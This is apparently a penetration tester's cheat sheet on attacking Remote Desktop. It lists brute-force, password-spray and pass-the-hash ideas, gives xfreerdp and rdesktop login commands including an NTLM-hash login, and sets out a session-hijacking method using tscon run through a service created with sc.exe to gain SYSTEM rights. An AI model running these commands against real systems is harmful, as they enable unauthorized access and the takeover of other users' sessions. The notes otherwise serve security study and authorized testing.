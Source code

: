 -- -
### Attacks
- See if RDP version is vulnerable to an exploit
- Try [[Medusa| Brute forcing a users password]]
- Try a [[Dark Arts I/Passwords/Password Spray|Password Spray Attack]]
- Try a [[PtH]] attack
### Connecting w/ valid credentials
```bash
# xfree rdp
xfreerdp /v:<ip> /u:<username> /p:<passwd> 

# rdesktop
rdesktop -u <username> -p <passwd> <ip>
```
### Connecting via PtH
```bash
xfreerdp /v:<ip> /u:<username> /pth:<hash>
```

^062e8b

### Session Hijacking
You need to have `SYSTEM` privs to pull this off, so more likely than not, you need:
1. to be local admin
2. have logged into the account via rdp
3. there needs to be another logged in user

To see if another user is logged in via rdp, pull up `PowerShell` or `CMD`.
```powershell
# you will need the following:
# SESSIONNAME (ours)
# ID (targets)
query user
```

To hijack the session, if the account has `SYSTEM` privs set already, you can just run:
```powershell
# this will open a terminal that's logged in as the other user
tscon <target session ID> /dest:<our session name>
tscon 2 /dest:rdp-tcp#13
```

There are a multitude of ways to get `SYSTEM` privs, one such way if you are a local admin is to setup a service that runs the above command when executed. The service will automatically run with `SYSTEM` privs and open a terminal up as the other user. 
```powershell
# setup session hijack service
sc.exe create <service name> binpath= "cmd.exe /k tscon <targetsession id> /dest:<our session name>"
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

# start the service
net start <session name>
net start sessionhijack
```